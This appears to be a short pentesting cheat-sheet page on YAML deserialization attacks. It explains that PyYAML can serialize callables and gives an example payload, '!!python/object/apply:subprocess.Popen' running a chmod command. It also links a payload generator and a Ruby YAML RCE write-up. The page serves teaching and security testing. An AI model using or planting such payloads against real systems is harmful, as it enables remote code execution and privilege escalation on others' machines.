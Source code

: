 ```yaml
---
description: >-
  Some YAML libraries are capable of serializing actual commands instead of just
  raw data. Which can be utilized to achieve RCE or PrivEsc.
---
```


# YAML deserialization attack

Try running the following script in Python

```python
import yaml

print(yaml.dump(range(1,10)))
```

You can see that the `range` method itself is serialized. To exploit this, you simply need to craft a nice YAML payload.

Which can conveniently be done using: [https://github.com/j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)

Example Python payload:

```yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +x
  - /bin/bash
```

Ruby also have a similar vulnerability

[https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)&#x20;
